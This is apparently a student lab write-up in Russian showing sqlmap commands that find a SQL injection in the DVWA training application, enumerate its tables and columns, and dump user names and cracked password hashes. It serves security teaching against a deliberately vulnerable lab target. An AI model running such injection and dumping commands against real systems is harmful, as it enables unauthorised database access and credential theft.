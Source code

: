 # SqlMap
### Используем команду для поиска SQL-инъекций

```
sqlmap -u 'http://dvwa.local/vulnerabilities/sqli/?id=1&Submit=Submit' --cookie='PHPSESSID=h7b79417e8om8h6ppsj109t0pl; security=low' -p 'id' --dbms='mysql' --level=3
```
![image](https://github.com/Nom1o/Secure_Software_Practice-4/assets/125586725/c76a701b-778f-4aea-9240-fa2c87a10fa2)

 
### Определим таблицы в базе данных dvwa
```
sqlmap -u 'http://dvwa.local/vulnerabilities/sqli/?id=1&Submit=Submit' --cookie='PHPSESSID=h7b79417e8om8h6ppsj109t0pl; security=low' -D dvwa --tables
```
![image](https://github.com/Nom1o/Secure_Software_Practice-4/assets/125586725/6a2aa11a-2270-41dc-9b91-e08e23e9d399)

### Получим все колноки в таблице users
```
sqlmap -u 'http://dvwa.local/vulnerabilities/sqli/?id=1&Submit=Submit' --cookie='PHPSESSID=h7b79417e8om8h6ppsj109t0pl; security=low' -D dvwa -T users –column
```
![image](https://github.com/Nom1o/Secure_Software_Practice-4/assets/125586725/ed8bac6a-d45c-4583-afd1-6d11a1558753)

### Выведем соержимое таблицы в который хэш паролей взламывается для получения результата:
```
sqlmap -u 'http://dvwa.local/vulnerabilities/sqli/?id=1&Submit=Submit' --cookie='PHPSESSID=h7b79417e8om8h6ppsj109t0pl; security=low' -D dvwa -T users -C user,password --dump
```
![image](https://github.com/Nom1o/Secure_Software_Practice-4/assets/125586725/47112109-5128-470e-bbd1-89388be04283)






